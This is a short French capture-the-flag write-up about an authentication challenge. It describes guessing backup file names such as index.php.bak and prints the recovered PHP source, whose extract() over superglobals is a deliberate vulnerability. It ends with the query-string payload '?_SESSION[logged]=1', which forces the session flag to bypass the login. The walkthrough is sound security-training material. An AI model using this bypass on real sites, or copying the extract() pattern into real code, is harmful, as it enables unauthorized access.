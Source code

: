 1. trouver le fichier de sauvegarde
→ rappel: https://ogma-sec.fr/securite-webapps-cas-fichiers-de-backups/
→ on sait que l'on consulte un 'index.php'
→ on test :
- index.php.bak
- index.bak
- index.php.old
- index.old
- .index.php.swp
- etc.


2. on ouvre 'index.php.bak' qui contient
```
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
    <html>
    <head>
    </head>
    <body>
      <h1>Authentication v 0.05</h1>
      <form action="" method="POST">
        Password&nbsp;<br/>
        <input type="password" name="password" /><br/><br/>
        <br/><br/>
        <input type="submit" value="connect" /><br/><br/>
      </form>
      <h3>'.htmlentities($res).'</h3>
    </body>
    </html>';
    return $aff;
}



session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

3. on voit que le code s'exécute à la condition suivante:
```
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
```

4. ne connaissant pas les mots de passe on force la variable de session à se valider à la valeur 1 dans l'url on frappe
→ "?_SESSION[logged]=1"